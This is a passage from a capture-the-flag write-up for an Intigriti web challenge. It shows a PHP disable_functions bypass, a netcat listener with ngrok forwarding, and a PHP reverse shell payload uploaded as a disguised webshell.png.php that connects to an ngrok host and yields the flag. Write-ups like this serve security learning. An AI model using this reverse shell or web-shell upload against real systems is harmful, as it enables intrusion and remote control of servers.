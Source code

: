 ```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|16:01:53(HKT)]
└> python3 read_files.py '/tmp/siunam_rce'
[+] File content:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nice! We successfully bypassed `disable_functions`!

## Exploitation

Armed with above information, we can gain a reverse shell via the following steps:
1. Upload a PHP script and bypass `disable_functions` (`proc_open` or `LD_PRELOAD` trick)
2. Access the uploaded script to trigger our payload

- Setup a [netcat](https://nmap.org/ncat/) listener

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:36:57(HKT)]
└> nc -lnvp 4444 
Listening on 0.0.0.0 4444

```

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:37:29(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:16640 -> localhost:4444                             
[...]
```

- Upload and trigger the following PHP reverse shell using the script in above section

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:36:02(HKT)]
└> python3 arbitrary_file_upload.py '$sock = fsockopen("0.tcp.ap.ngrok.io", 16640); $process = proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'
[*] Webshell payload:
<?php
$sock = fsockopen("0.tcp.ap.ngrok.io", 16640); $process = proc_open("/bin/bash", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
[+] The file has been uploaded to uploads/webshell.png.php
[+] Response text:
GIF89a
```

- Profit

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|15:36:57(HKT)]
└> nc -lnvp 4444 
[...]
Connection received on 127.0.0.1 56284
ls -lah /
total 68K
[...]
-rw-r--r--   1 root root   35 Oct  8 04:17 93e892fe-c0af-44a1-9308-5a58548abd98.txt
[...]
cat /93e892fe-c0af-44a1-9308-5a58548abd98.txt
INTIGRITI{ngks896sdjvsjnv6383utbgn}
```
